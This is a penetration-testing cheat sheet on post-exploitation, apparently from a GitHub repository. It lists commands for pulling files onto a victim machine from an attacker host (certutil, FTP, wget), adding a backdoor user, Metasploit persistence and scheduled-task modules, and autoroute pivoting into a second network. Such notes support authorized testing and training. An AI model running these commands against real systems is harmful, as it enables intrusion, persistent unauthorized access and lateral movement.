 # Post Exploitation

---

## Index:

- [File Transfers](#file-transfers)
- [Maintaining Access](#maintaining-access)
- [Pivoting](#pivoting)
- [Cleanup](#cleanup)


<br>

## File-Transfers

---

- Certutil

		certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

- HTTP - Change to the directory you want to host
	
		python -m SimpleHTTPServer [port]

- Browser 

		Navigate directly to the file (%20 for spaces)

- FTP

	- On Attacker Machine

			python -m pyftpdlib 21

	- On Victim Machine, Browse to
	
			ftp 10.10.10.10

- Linux

		wget https://example.com/example.txt

<div style="page-break-after: always;"></div>
<br>

## Maintaining-Access

---

- Add a user 
	
		net user hacker password 123 /add

- Persistence Scripts 
	
		run persistence -h 
	
		exploit/windows/local/persistence 
	
		exploit/windows/local/registry_persistence 

- Scheduled Tasks 
	
		run scheduleme 
	
		run schtaskabuse 


<div style="page-break-after: always;"></div>
<br>

## Pivoting

---

Suppose you're on **`192.168.x.x`** **Network** and so your Victim is.

But when you get a shell into machine, you try the following commands:

	printroute
	ipconfig

And you notice that there is **another network** (say **`eth1` `10.10.10.x`**)

How do we **get into the other network?**

We do something called as **PIVOTING -> ->** 

<br>

### Setup and Pivot!

Fire up `msfconsole` and **Route** to the other network

	run autoroute -s 10.10.10.0/24
	
**List** all the routes

	run autoroute -p 

**Background** that session

	background 

**Let's Pivot** into that Machine (`10.10.10.x` Network)

	use scanner/portscan/tcp

Set the **RHOST** and an **Open Port** (Since we know it's **AD**, we can use **445**)

	set RHOSTS 10.10.10.2
	set PORTS 445

	run

You have **successfully pivoted** into that machine! (which you didn't even know about because of **different network**) 

<div style="page-break-after: always;"></div>
<br>

## Cleanup

---

### Make the system/network as it was when you entered it.

- Remove **executables**, **scripts**, and **added files.** 

- Remove **malware**, **rootkits**, and **added user accounts.**

- Set settings back to **original configurations.**

<br>
<br>
<br>
<br>
<br>

***:) Nice Work, Good Luck on Pentests!***